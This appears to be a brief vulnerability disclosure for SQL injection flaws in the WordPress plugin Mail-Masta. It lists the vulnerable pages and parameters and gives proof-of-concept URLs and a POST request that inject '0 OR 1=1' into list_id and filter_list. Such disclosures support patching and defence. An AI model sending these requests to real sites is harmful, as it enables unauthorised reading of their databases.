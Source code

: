 Wordpress Plugin Mail-Masta SQL Injection
=========================================
Page: ../wp-content/plugins/mail-masta/inc/lists/csvexport.php

GET Parameter: list_id

http://<wordpress>/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php




Page: ../wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires authentication to Wordpress admin)

GET Parameter: filter_list

http://<wordpress>/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1




Page: ../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires authentication to Wordpress admin)

POST Parameter: camp_id

http://<wordpress>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php




Page: ../wp-content/plugins/mail-masta/inc/campaign_save.php (Requires authentication to Wordpress admin)

POST Parameter: list_id


POST /wordpress/wp-admin/admin-ajax.php?id= HTTP/1.1
...snip...
action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwordpress%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1
